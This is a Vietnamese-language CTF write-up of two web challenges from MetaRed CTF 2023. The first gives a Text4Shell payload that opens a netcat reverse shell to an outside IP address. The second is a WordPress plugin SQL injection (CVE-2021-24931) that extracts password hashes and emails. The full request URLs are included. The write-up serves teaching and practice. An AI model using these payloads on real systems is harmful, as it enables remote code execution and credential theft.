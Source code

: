```yaml
---
title: Write-Up MetaRed CTF 2023 - Stage 5
date: 2023-11-23 7:55:00 +0700
categories: [CTF, MetaRed-CTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# MetaRed CTF 2023 - Stage 5
# WEB - Text4Shell

- Về cơ bản, việc ta cần làm là tìm cách RCE thông qua param `?search` của trang web, ở đây mình sử dụng revershell

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled.png">
payload: `${java.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e /bin/bash')}`

payload encode url: [`http://190.15.135.60/text4shell/attack?search=%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e %2Fbin%2Fbash')}`](http://190.15.135.60/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2065.21.156.52%204443%20-e%20%2Fbin%2Fbash%27%29%7D) - **encode $ { }/ và ( )**

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 1.png">

- `nc -lvnp 4443` : kết nối vào port 4443, sau đó lấy flag ^^

# WEB-WordPress

**[Wordpress Plugin Secure Copy Content Protection and Content Locking < 2.8.2 - SQL-Injection (Unauthenticated)](https://github.com/Hacker5preme/Exploits#wordpress-plugin-secure-copy-content-protection-and-content-locking--282---sql-injection-unauthenticated)**

**# CVE: CVE-2021-24931**

Plugin WordPress "The Secure Copy Content Protection and Content Locking" phiên bản trước 2.8.2 không thoát (escape) đúng tham số **`sccp_id`** của  AJAX **`ays_sccp_results_export_file`**. Hành động này có sẵn cho cả người dùng chưa xác thực và người dùng đã xác thực. Trước khi sử dụng giá trị **`sccp_id`** trong một câu lệnh SQL, plugin không thực hiện bước thoát thích hợp, dẫn đến một lỗ hổng SQL injection.

Lỗ hổng này có thể cho phép kẻ tấn công thực hiện các cuộc tấn công SQL Injection bằng cách chèn các câu lệnh SQL độc hại vào giá trị của **`sccp_id`**.

[https://www.exploit-db.com/exploits/50733](https://www.exploit-db.com/exploits/50733)

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 2.png">

PAYLOAD: `3) union select 1,user_pass,user_email,2,2,2 from wp_users union select 1,1,1,1,1,1 FROM wp_ays_sccp_reports WHERE (1=1`

- Phần này đang thực hiện một tấn công SQL Injection bằng cách sử dụng UNION SELECT để nối kết quả từ hai truy vấn khác nhau.
- Đoạn **`select 1, user_pass, user_email, 2, 2, 2 from wp_users`** lấy thông tin mật khẩu (**`user_pass`**) và email (**`user_email`**) từ bảng **`wp_users`**.
- Đoạn **`select 1, 1, 1, 1, 1, 1 FROM wp_ays_sccp_reports WHERE (1 = 1)`** dùng để cân bằng các cột

payload url: `GET /wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)%20union%20select%201,user_pass,user_email,2,2,2%20from%20wp_users%20union%20select%201,1,1,1,1,1%20FROM%20wp_ays_sccp_reports%20WHERE%20(1=1%20&type=json HTTP/1.1`

flag{$P$BsIu9jhV\/NIdvwjpaV8n0MeyhZgMmz0}
